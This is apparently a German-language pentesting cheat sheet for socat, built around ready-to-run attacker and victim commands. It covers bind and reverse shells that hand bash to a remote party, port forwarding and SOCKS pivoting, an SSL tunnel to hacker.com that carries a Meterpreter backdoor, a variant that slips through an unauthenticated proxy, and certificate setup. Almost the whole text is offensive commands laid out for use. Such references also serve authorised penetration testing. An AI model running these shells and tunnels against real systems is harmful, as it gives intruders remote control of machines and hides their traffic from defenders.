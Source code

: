 [https://github.com/andrew-d/static-binaries](https://github.com/andrew-d/static-binaries)

### Bind-Shell
```bash
victim> socat TCP-LISTEN:1337,reuseaddr,fork EXEC:bash,pty,stderr,setsid,sigint,sane
attacker> socat FILE:`tty`,raw,echo=0 TCP4:<victim_ip>:1337
```
### Reverse-Shell
```bash
attacker> socat TCP-LISTEN:1337,reuseaddr FILE:`tty`,raw,echo=0
victim> socat TCP4:<attackers_ip>:1337 EXEC:bash,pty,stderr,setsid,sigint,sane
```
### Port2Port
```bash
socat TCP4-LISTEN:<lport>,fork TCP4:<redirect_ip>:<rport> &
```
### Port2Port über Socks
```bash
socat TCP4-LISTEN:1234,fork SOCKS4A:127.0.0.1:google.com:80,socksport=5678
```
### Meterpreter über SSL Socat
```bash
#Create meterpreter backdoor to port 3333 and start msfconsole listener in that port
attacker> socat OPENSSL-LISTEN:443,cert=server.pem,cafile=client.crt,reuseaddr,fork,verify=1 TCP:127.0.0.1:3333
```

```bash
victim> socat.exe TCP-LISTEN:2222 OPENSSL,verify=1,cert=client.pem,cafile=server.crt,connect-timeout=5|TCP:hacker.com:443,connect-timeout=5
#Execute the meterpreter
```
Sie können einen **nicht-authentifizierten Proxy** umgehen, indem Sie diese Zeile anstelle der letzten in der Konsole des Opfers ausführen:
```bash
OPENSSL,verify=1,cert=client.pem,cafile=server.crt,connect-timeout=5|PROXY:hacker.com:443,connect-timeout=5|TCP:proxy.lan:8080,connect-timeout=5
```
[https://funoverip.net/2011/01/reverse-ssl-backdoor-with-socat-and-metasploit/](https://funoverip.net/2011/01/reverse-ssl-backdoor-with-socat-and-metasploit/)

### SSL Socat Tunnel

**/bin/sh Konsole**

Erstellen Sie Zertifikate auf beiden Seiten: Client und Server
```bash
# Execute these commands on both sides
FILENAME=socatssl
openssl genrsa -out $FILENAME.key 1024
openssl req -new -key $FILENAME.key -x509 -days 3653 -out $FILENAME.crt
cat $FILENAME.key $FILENAME.crt >$FILENAME.pem
chmod 600 $FILENAME.key $FILENAME.pem
```
